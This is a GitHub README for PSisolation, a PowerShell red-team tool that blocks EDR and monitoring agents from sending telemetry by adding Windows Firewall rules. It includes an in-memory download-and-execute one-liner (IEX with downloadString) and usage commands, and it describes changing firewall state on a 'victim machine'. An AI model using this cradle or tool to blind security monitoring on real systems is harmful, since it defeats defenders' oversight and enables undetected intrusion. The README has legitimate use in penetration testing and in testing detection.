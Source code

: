 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes. 

I also wrote this [article](https://blog.y00ga.lol/PERSO/PUBLISH/Article+perso/PSisolation%2C+in+Cyberspace+No+One+Can+Hear+You+Scream#New-NetFirewallRule) if you want to learn a bit more about it

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory

````
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/y00ga-sec/PSisolation/refs/heads/main/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic -ProcessPath <executablefull path>
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````

https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356

------
# But what if the target machine does not use Windows Defende Firewall ?

Well the script got you covered ! Logic is the following :

- If PSisolation detects the victim machine has Windows Firewall enabled --> Simple retrieves EDR services name and associated executable path and create outgoing blocking firewall rules
- Otherwise, PSisolation will :
   - Backup every rule on the machine in a temporary file
   - Create outgoing blocking firewall rules for EDRs
   - Enable Windows Defender Firewall so that the PSisolation blocking rules take effect and disable every rule to avoid blocking production traffic
   - Once you're done and run `Unblock-AllFilters`, the script will restore every rule/rule state from the temporary backup file (which will also delete PSisolation blocking rules)
   - Delete backup rules temporary
   - Restore Windows Defender Firewall to its previous state 


---------
# TO DO : 
- Right now, this tool only works if the Windows Firewall is enabled, which is not always the case, so PSisolation needs to circumvent this limitation so that the Windows Firewall rules blocking rules get applied for EDR only.
